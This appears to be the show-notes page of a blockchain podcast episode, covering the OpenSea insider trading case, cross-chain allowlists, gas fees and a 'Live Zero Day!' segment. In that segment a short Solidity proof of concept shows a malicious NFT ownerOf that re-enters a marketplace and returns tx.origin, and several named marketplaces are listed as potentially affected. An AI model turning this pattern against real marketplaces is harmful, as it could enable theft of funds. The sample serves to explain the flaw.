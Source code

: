 ```yaml
---
posted: true
guid: "B08380FC-F902-47CF-9EF7-4F10CDB64671"
title: "Evil ownerOf"
subtitle: ""
description: "We talk about OpenSea insider trading charge, facts, legal analysis, allow list to your (testnet) beta testers, beer of the day, make your own bridge (simple, insecure), drops with random timing, cross chain minting by centralizing, and Evil ownerOf."
time: "2022-06-07 18:00:00 -0500"
itunes-explicit: false
itunes-episode: 27
itunes-episodeType: full

# More info
youtube-full: https://youtu.be/_RVWOU8dOM4
discussion: https://twitter.com/fulldecent/status/1534317390971998209

timeline:
  - seconds: 67
    title: OpenSea insider trading charge, facts
  - seconds: 141
    title: Legal analysis
  - seconds: 402
    title: Give allow list to your (testnet) beta testers
  - seconds: 543
    title: Beer of the day
  - seconds: 552
    title: Make your own bridge (simple, insecure)
  - seconds: 711
    title: Drops with random timing!
  - seconds: 786
    title: Cross chain minting by centralizing
  - seconds: 905
    title: Evil ownerOf


# File information
enclosure-url: "https://media.phor.net/csh/2022-06-07-episode-27.m4a"
enclosure-length: 24674153
enclosure-type: "audio/x-m4a"
itunes-duration: 1224

# CSH information
badges: []
---
```


<!--end of quick notes-->

- OpenSea insider trading
  - https://www.justice.gov/usao-sdny/pr/former-employee-nft-marketplace-charged-first-ever-digital-asset-insider-trading-scheme
  - https://www.bloomberg.com/opinion/articles/2022-06-02/don-t-insider-trade-nfts#xj4y7vzkg
- @037 If you wanted to do an airdrop of coins to only a set of wallets that participated on another contract in a dev chain (example: Rinkeby), is there a way to do cross-chain verification using an arbitrary block height? (example: give 10 coins from Contact "A" in Mainnet if Wallet "A" interacted with Contract "B" on Rinkeby before block height "X"). This is to promote mass beta testing to hopefully catch bugs before live deploy.…
  - Option A – Bridge
    - Use Rinkeby to make a separate contract and use a bridge to send those tokens to the other chain.
  - Option B – “get hands dirty”
    - Rinkeby allowlist contract
      - Function isAllowlisted emits logs, not a view function, in other words ONE transaction results in MULTIPLE allow list validations
    - On Mainnet validate these logs
      - Validate multiple consecutive blocks, with difficulty, using parent block and difficulty, this only works with proof of work
      - Validate specific transaction using inclusion Merkle proof
      - Validate and the transaction receipt (see [Yellow Paper BERLIN](https://ethereum.github.io/yellowpaper/paper.pdf), page 6, transaction receipt data structure) to confirm the logs were emitted
      - Optional: add a time limit to this redeemability (using block.timestamp)
  - Option C – Centralize
    - Time public time limits / redeem periods / for accountability
    - After that happens, everybody can see it and run the tool, copy this: https://github.com/su-squares/update-script and https://github.com/miguelmota/merkletreejs-nft-whitelist
- Addressing gas fees
  - Bonding curves
  - Dutch auctions
- Live Zero Day!
  - Affected marketplaces are potentially 2018 smart contracts that allow selling any NFT, and have a balance of value (not just allowlisted ones)
    - OpenSea
    - Rarebits
    - Superrare
    - Niftygateway

```solidity
// SPDX-License-Identifier: UNLICENED
pragma solidity 0.5.0;

interface NFT {
  function ownerOf(uint256) external view returns (address);
}

contract EvilNFT {
  Marketplace public marketplace;

  function setMarketplace(Marketplace marketplace_) external {
    marketplace = marketplace_;
  }

  function ownerOf(uint256) external returns (address) {
    marketplace.reprice();
    return address(tx.origin);
  }
}

contract Marketplace {
  uint256 public price = 0;

  function reprice() external {
    price++;
  }

  function doSomething(NFT nft, uint256 tokenID) external {
    // collect money from msg.sender
    require(nft.ownerOf(tokenID) == msg.sender);
    // check price
    // send money to DAO
  }
}
```

- Bankless got blocked on YouTube
  - CEO tweeted sorry!